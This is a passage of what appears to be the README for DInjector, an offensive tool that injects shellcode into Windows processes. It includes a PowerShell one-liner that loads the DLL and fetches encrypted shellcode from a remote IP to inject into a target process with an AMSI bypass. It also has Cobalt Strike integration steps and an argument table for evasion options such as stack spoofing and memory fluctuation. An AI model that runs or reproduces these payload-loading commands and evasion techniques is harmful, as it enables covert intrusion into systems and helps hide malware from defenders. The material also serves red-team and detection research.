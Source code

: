 Test it locally with PowerShell:

```powershell
$bytes = [System.IO.File]::ReadAllBytes("C:\DInjector.dll")
$assem = [System.Reflection.Assembly]::Load($bytes)
[DInjector.Detonator]::Boom("remotethread /sc:http://10.10.13.37/enc /p:Passw0rd! /pid:1337 /am51:True")
```

## Cobalt Strike Integration

In order to use DInjector from Cobalt Strike:

1. Change project's output type to Console Application.
2. Replace some strings:

```powershell
$detonator = gc .\Detonator.cs
$detonator = $detonator -creplace "Boom", "Main"
$detonator = $detonator -creplace "Main\(string command\)", "Main(string[] args)"
$detonator = $detonator -creplace "var args = command.Split\(\);", "//var args = command.Split();"
$detonator > .\Detonator.cs
```

3. Compile the assembly to x64 and put it next to the Aggressor script.

![cs](https://user-images.githubusercontent.com/23141800/169656256-143f6cfa-0a33-4869-9bce-f7b1d58686e2.png)

## Arguments

| Name           | Techniques                                                                                                                                                                                 | Required | Default Value          | Example Values                                                                    | Description                                                                                                                                                  |
|----------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------|------------------------|-----------------------------------------------------------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------|
| `/sc`          | All                                                                                                                                                                                        | YES      | -                      | `http://10.10.13.37/enc`                                                          | Sets shellcode path (can be loaded from URL or as a base64 string)                                                                                           |
| `/p`           | All                                                                                                                                                                                        | YES      | -                      | `Passw0rd!`                                                                       | Sets password to decrypt the shellcode                                                                                                                       |
| `/protect`     | CurrentThread                                                                                                                                                                              | NO       | `RX`                   | `RX` / `RWX`                                                                      | Sets memory protection for the shellcode                                                                                                                     |
| `/flipSleep`   | CurrentThread                                                                                                                                                                              | NO       | `0` (do NOT flip)      | `10000`                                                                           | Sets timeout for NtDelayExecution (ms) to delay execution with PAGE_NOACCESS on the shellcode before resuming the thread                                     |
| `/timeout`     | CurrentThread                                                                                                                                                                              | NO       | `0` (serve forever)    | `5000`                                                                            | Sets timeout for NtWaitForSingleObject (ms) to wait before doing extra cleanup                                                                               |
| `/fluctuate`   | CurrentThread                                                                                                                                                                              | NO       | `0` (do NOT fluctuate) | `RW`                                                                              | Sets memory protection for the shellcode to fluctuate on Sleep with                                                                                          |
| `/spoofStack`  | CurrentThread                                                                                                                                                                              | NO       | `False`                | `True` / `False`                                                                  | Spoofs current thread stack frame to hide the presence of the shellcode                                                                                      |
| `/image`       | RemoteThreadKernelCB, RemoteThreadAPC, RemoteThreadContext, ProcessHollowing, ModuleStomping                                                                                               | YES      | -                      | `C:\Windows\System32\svchost.exe`, `C:\Program*Files\Mozilla*Firefox\firefox.exe` | Sets path to the image of a newly spawned sacrifical process to inject into. If there're spaces in the image path, replace them with asterisk (*) characters |